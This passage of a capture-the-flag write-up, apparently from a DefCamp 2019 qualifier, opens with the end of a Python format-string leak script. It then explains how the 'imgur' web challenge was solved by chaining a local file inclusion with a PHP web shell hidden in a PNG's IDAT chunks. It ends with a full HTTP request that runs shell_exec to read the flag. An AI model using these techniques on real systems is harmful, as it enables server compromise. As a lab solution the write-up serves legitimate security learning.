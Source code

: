 ```python
            raise ValueError('failed')

        send_data('%%%d$08x.%%%d$08x.%%%d$08x.%%%d$08x' % (i, i+1, i+2, i+3))
        wait_for_prompt('password:')

        send_data('test')
        data = console_output()
        data = data.split(' ')[0].split('.')
        data = ''.join(p32(int(v, 16)) for v in data)
        print(repr(data))
        # print(i)

        p.close()
```


imgur (202p): Web
==================

```
This is an out of the box challenge with a very "professional" and complex interface. Get in and print the flag.
Target: https://imgur.dctfq19.def.camp
Author: Andrei
```

Registered. Saw the imgur integration and thought of SSRF. Tried everything from SSRF-Testing.

Then I tried LFI on `?page=` parameter. It worked. Tried some usual files but nothing with user input. Then I thought we have the file upload from IMGUR. And what if we could use a file that's a valid php shell and png / jpeg on imgur.

Well that worked pretty quickly. I read an article about png IDAT chunks a while ago and immediately tried that.

[https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

I used that payload on imgur. It worked.

Apparently even if the file is PNG, you can change extension on imgur and use JPEG. `https://i.imgur.com/XkFF9Gx.png` to `https://i.imgur.com/XkFF9Gx.jpg` . Useful trick because dctf imgur platform doesn't allow `.png` files.

I used that, then pointed the LFI payload to the file in profiles/ and snooped around.

Final payload:

```
POST /index.php?0=shell_exec&page=profiles/XkFF9Gx.jpg HTTP/1.1
Host: imgur.dctfq19.def.camp
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=1k44iqhg61tej99ms4c3u233cg
Cache-Control: no-transform
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

1=cat+/home/dctf/flag_3d05c1f377122d0af8a3426cd2c9a739;%23
```
